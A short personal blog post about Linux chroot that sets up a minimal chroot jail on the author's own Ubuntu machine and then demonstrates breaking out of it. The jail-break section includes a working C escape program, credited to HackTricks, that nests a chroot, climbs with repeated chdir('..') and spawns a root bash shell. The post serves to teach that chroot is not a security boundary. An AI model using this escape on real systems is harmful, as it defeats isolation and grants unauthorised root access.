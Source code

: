 ```yaml
---
layout: post
title: Looking into CHROOT
categories: [Linux]
---
```



## **What is Chroot?**

According to linux documentation...

> chroot - run command or interactive shell with special root directory

 Chroot is used in lots of different situation. As creating isolated testing environment for developers, running deprecated software that require older libraries, recovery filesystem...

  I remembered i use it when installing arch linux few years back, it also save me when my GRUB bootloader get broken on my old ubuntu PC. 

## **Practice**

 Okay enough chit-chat, let's roll out sleeves and deep dive into chroot. I will create simple sandbox bash environment with few commands as `touch`, `rm`, `ls` and `id`.  You need any linux distribution where you have admin/sudo rights. I used Ubuntu desktop for this example.

I created folder chroot-jail inside my home directory

```bash 
mkdir chroot-jail
```

I need to create folders bin,lib,lib64 and urs inside my newly created folder. 

```
mkdir -p chroot-jail/{bin,lib,lib64,usr/bin}
```
{} help me create multiple folders in my chroot-jail folder 
-p help me create folder bin inside urs inside chroot-jail :) it help create nested folders

![](/images/chroot/01-folders.png)

Now I need to copy all binaries I want to use. As I mentioned before I will copy `bash`,`touch`,`ls` and `rm` into my chroot-jail/bin folder and `id` into chroot-jail/usr/bin

![](/images/chroot/02-copy.png)

It's not that easy just copy binaries over. Every binary has some library dependencies. I need to copy that library into correct lib folder. To check dependencies I used `ldd` command.

![](/images/chroot/03-ldd.png)

I can see `bash` binary depends on few libraries. 3 of them I copied to lib folder and last one to lib64 folder. I will do exact same thing for `touch`,`ls`,`rm` and `id` binaries. If no missing library is there we can run command 

```bash 
sudo chroot chroot-jail /bin/bash
```

![](/images/chroot/04-jail.png)

I am in new shell. I can test all binaries I copied before. I can see all of them are working as expected. If I want to run binaries that are not inside my chroot-jail folder I will get error message.

![](/images/chroot/05-error.png)

## **Jail-break**

Chroot is not security feature. As you can see from man pages

> In particular, it is not intended
       to be used for any kind of security purpose, neither to fully
       sandbox a process nor to restrict filesystem system calls. 

If I looked into [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-limited-bash) and there was really nice C script for escaping. It looks like this...

```bash
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>
//gcc break_chroot.c -o break_chroot
int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

I can compile this script with this command

```bash 
gcc script.c -o spyx
```

and copy it into my chroot-jail folder and test it. 

![](/images/chroot/06-break.png)

I became root on my own hosts! As we can see I became immediate root because I run chroot with sudo privileges.

Thanks for reading....